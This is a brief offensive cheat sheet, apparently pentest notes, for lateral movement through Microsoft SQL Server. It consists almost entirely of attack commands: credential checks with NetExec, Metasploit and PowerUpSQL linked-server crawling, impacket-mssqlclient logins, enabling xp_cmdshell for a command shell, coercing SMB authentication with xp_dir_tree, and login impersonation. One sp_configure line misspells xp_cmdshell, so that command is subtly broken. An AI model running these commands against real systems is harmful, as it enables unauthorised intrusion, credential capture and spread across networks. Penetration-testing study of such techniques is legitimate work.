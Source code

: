# MSSQL Lateral Movement

## Tools: CrackMapExec/Netexec , impacket-mssqlclient

 - netexec mssql IP -u USER -p PASSWORD -d DOMAIN (Find mssql access)

 - MATCH p=(u:User)-[:SQLAdmin]->(c:Computer) RETURN p (Users with SQL Admin bloodhound cypher query)

### Trust Link

#### 1) Metasploit

 - use exploit/windows/mssql/mssql_linkcrawler

#### 2) Powershell MSSQL Module

 - Get-SQLServerLinkCrawl -username USERNAME -password PASSWORD -Verbose -Instance SQL_INSTANCE -Query "SQL_QUERY"

#### 3) impacket-mssqlclient

 - impacket-mssqlclient -windows-auth DOMAIN/USER:PASSWORD@IP

### Commands upon login:

 - enum_db

 - enable xp_cmdshell --> xp_cmdshell COMMAND (Gives low access shell)

 - xp_dir_tree IP (Coerce SMB)

 - trustlink --> sp_linkedservers --> use_link (MSSQL Lateral Movement)

 - enum_impersonate --> exec_as_user USER

 - enum_impersonate --> exec_as_login LOGIN

#### 4) MSSQL Client shell

 - EXECUTE sp_configure 'show advanced options',1; RECONFIGURE;

 - EXECUTE sp_configure 'xp_cmdhsell',1; RECONFIGURE;

 - EXEC xp_cmdshell 'COMMAND' (Gains low access shell)
